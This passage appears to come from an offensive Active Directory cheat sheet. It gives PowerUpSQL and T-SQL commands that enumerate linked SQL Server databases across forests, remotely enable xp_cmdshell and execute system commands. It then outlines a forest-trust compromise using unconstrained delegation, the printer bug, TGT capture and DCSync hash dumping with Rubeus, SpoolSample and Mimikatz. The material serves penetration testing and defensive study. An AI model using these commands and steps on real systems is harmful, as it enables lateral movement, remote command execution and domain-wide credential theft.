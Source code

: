 - Abusing SQL Database Links:
    *WUT IS DIS?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!*
    

Check for existing Database Links:

```powershell
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instance <SPN> -Verbose

#MSSQL Query:
select * from master..sysservers
```

⧉ Copied!

Then we can use queries to enumerate other links from the linked Database:

```powershell
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

⧉ Copied!

Query execution:

```powershell
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

⧉ Copied!

### Breaking Forest Trusts

*WUT IS DIS?:
TL;DR
If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation (DCs have this by default), we can use the printerbug to force the DC of the external forest's root domain to authenticate to us. Then we can capture it's TGT, inject it into memory and DCsync to dump it's hashes, giving ous complete access over the whole forest.*

Tools we are going to use:

- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
